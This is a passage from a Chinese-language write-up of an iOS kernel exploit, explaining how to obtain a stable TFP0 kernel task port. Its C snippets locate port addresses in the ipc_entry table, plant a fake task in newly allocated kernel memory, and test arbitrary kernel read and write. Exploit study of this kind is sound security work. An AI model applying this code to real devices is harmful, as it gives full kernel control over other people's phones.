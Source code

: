 内存释放函数：`kfree()`

```c
void kfree(mach_vm_address_t address, vm_size_t size) {
    mach_vm_deallocate(tfpzero, address, size);
}
```

##  9. 稳定的TFP0

`new_tfp0`是我们最终要使用的TFP0，函数`find_port()`也是利用上面的`tfpzero`进行读取

```c
mach_port_t new_tfp0 = new_port();
uint64_t new_addr = find_port(new_tfp0, self_port_addr);
```

最开始分析代码的时候我们说过所有的Port都以`ipc_entry_t`的形式存在在`is_table`里，可以通过用户态Port来计算索引取出这个Port的内核态地址

```c
uint64_t find_port(mach_port_name_t port, uint64_t task_self) {
    uint64_t task_addr = rk64(task_self + koffset(KSTRUCT_OFFSET_IPC_PORT_IP_KOBJECT));
    uint64_t itk_space = rk64(task_addr + koffset(KSTRUCT_OFFSET_TASK_ITK_SPACE));
    uint64_t is_table = rk64(itk_space + koffset(KSTRUCT_OFFSET_IPC_SPACE_IS_TABLE));
    uint32_t port_index = port >> 8;    // 取索引
    const int sizeof_ipc_entry_t = 0x18;
    uint64_t port_addr = rk64(is_table + (port_index * sizeof_ipc_entry_t));
    return port_addr;
}
```

重新申请一片内核内存用于存储`Fake Task`，通过函数`kwrite()`将`fake_task`写到新申请的内核内存空间，然后让`Fake Task Port`的`ip_kobject`指向这片新的内存，最后通过刷新`new_addr`指向的`new_tfp0`内存来获取一个最终的TFP0

```c
uint64_t faketask = kalloc(0x600);
kwrite(faketask, fake_task, 0x600);
fakeport->ip_kobject = faketask;
kwrite(new_addr, (const void*)fakeport, sizeof(kport_t));
```

重复一遍上面的写入读取，测试这个`new_tfp0`是否可用

```c
init_kernel_memory(new_tfp0);
printf("[+] tfp0: 0x%x\n", new_tfp0);

addr = kalloc(8);
printf("[*] allocated: 0x%llx\n", addr);

wk64(addr, 0x4141414141414141);
readb = rk64(addr);
printf("[*] read back: 0x%llx\n", readb);

kfree(addr, 8);
```
